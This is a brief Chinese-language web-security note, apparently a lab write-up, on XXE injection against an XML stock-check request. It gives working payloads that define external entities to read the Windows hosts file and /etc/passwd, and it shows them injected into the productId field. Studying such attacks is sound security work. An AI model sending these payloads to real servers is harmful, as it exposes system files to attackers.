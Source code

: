# 检索文件

测试：

```
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
]>
<data>
    <content>&xxe;</content>
</data>
```

解析后：

![image-20250417192434888](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250417192434888.png)

如下图，web 使用 XML 进行数据检索：

```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

![image-20250416160301123](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250416160301123.png)

当 productId 标签内的数据不存在时，他能回显数据：

![image-20250416160922121](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250416160922121.png)

引入外部实体，将外部实体放进productId 标签，并将实体值指向服务器敏感文件：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

![image-20250416161026581](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250416161026581.png)

